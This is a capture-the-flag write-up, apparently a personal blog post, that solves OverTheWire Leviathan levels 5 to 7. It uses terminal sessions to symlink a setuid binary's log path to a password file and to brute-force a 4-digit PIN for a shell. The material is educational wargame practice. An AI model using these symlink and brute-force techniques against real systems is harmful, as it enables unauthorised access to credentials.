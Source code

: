 # Leviathan 5 -> 6

```console
leviathan5@leviathan:~$ ls -al
total 32
drwxr-xr-x  3 leviathan5 leviathan5 4096 Sep 11 05:55 .
drwxr-xr-x 11 root       root       4096 Sep 11 05:55 ..
-rw-r--r--  1 leviathan5 leviathan5  220 Apr  9  2014 .bash_logout
-rw-r--r--  1 leviathan5 leviathan5 3637 Apr  9  2014 .bashrc
drwx------  2 leviathan5 leviathan5 4096 Sep 11 05:55 .cache
-rw-r--r--  1 leviathan5 leviathan5  675 Apr  9  2014 .profile
-r-sr-x---  1 leviathan6 leviathan5 7642 Jun 15 11:38 leviathan5
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@leviathan:~$ strace ./leviathan5 
execve("./leviathan5", ["./leviathan5"], [/* 19 vars */]) = 0
[ Process PID=57 runs in 32 bit mode. ]
brk(0)                                  = 0x804b000
...
open("/tmp/file.log", O_RDONLY)         = -1 ENOENT (No such file or directory)
...
```

Okay, so it looks for a `/tmp/file.log`, let's create one and see what happens.

```console
leviathan5@leviathan:~$ echo abatchy > /tmp/file.log
leviathan5@leviathan:~$ echo abatchy > /tmp/file.log && ./leviathan5 
abatchy
```

Well isn't that nice? Can we manipulate it again with a symbolic link?

```console
leviathan5@leviathan:~$ ln -s  /etc/leviathan_pass/leviathan6 /tmp/file.log && ./leviathan5 
password_to_leviathan6
```

---

# Leviathan 6 -> 7

`leviathan6` requires a 4 digit pin to (hopefully) reveal the password, since the search space is really small we can bruteforce this.

To generate 4 digits we can use `seq`, since leading zeroes aren't printed by default we can do it this way: `seq 0000 1111`.

```console
leviathan6@leviathan:~$ for i in $(seq 0000 9999); do ./leviathan6 $i ; done
...
$ whoami
leviathan7
```

---

Aaand that's it! Next will be pwnable.kr challenges.

\- Abatchy